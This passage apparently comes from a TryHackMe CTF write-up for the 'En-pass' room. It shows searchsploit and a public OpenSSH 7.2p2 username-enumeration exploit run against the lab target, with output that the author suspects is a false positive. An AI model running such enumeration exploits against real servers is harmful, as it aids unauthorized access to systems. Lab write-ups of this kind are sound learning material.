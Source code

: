 ```
OpenSSHd 7.2p2 - Username Enumeration                                | linux/remote/40113.txt
--------------------------------------------------------------------- ---------------------------------

┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# searchsploit -m 45939
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# python2 45939.py $RHOSTS test  
/usr/local/lib/python2.7/dist-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] test is a valid username
```

Hmm... False positive?

Do you remember we still have one thing we need to check?

**`/403.php`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/En-pass/images/Pasted%20image%2020230101004013.png)
